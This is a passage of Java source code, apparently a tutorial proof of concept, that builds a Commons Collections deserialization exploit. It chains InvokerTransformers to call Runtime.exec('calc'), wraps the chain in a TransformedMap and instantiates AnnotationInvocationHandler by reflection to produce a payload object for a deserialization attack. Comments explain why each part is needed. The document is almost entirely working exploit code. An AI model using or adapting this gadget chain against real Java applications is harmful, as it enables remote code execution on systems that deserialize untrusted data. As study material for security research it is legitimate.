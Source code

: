 ```java
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //here, we only need Runtime.class to be transformed, then they transform automatically
        chainedTransformer.transform(Runtime.class);
        //until now, five calculators should pop up

        //wrapping...
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "try");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);
        Class handler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = handler.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);

//        We don't simply use Override.class, because in AnnotationInvocationHandler.java
//        private void readObject(java.io.ObjectInputStream s)
//        ...
//        ...
//        for (Map.Entry<String, Object> memberValue : streamVals.entrySet()) {
//                    String name = memberValue.getKey();
//                    Object value = null;
//                    Class<?> memberType = memberTypes.get(name);
//        A null judgment blocks getValue
//                    if (memberType != null) {  // i.e. member still exists
//                        value = memberValue.getValue();
//                        if (!(memberType.isInstance(value) ||
//                              value instanceof ExceptionProxy)) {
//                            value = new AnnotationTypeMismatchExceptionProxy(
//                                        objectToString(value))
//                                .setMember(annotationType.members().get(name));
//                        }
//                    }
//                    mv.put(name, value);
//                }

        //public @interface Target {
        //    /**
        //     * Returns an array of the kinds of elements an annotation type
        //     * can be applied to.
        //     * @return an array of the kinds of elements an annotation type
        //     * can be applied to
        //     */
        //****ElementType[] value(); <---this is what we need  /in AnnotationInvocationHandler.java: Class<?> memberType = memberTypes.get(name);
        //}
        //this is why we write map.put("value", "try");
        Object payload = annotationInvocationHandlerConstructor.newInstance(Target.class, transformedMap);
        //now you can use this object to do unserialize attack

    }
}

```

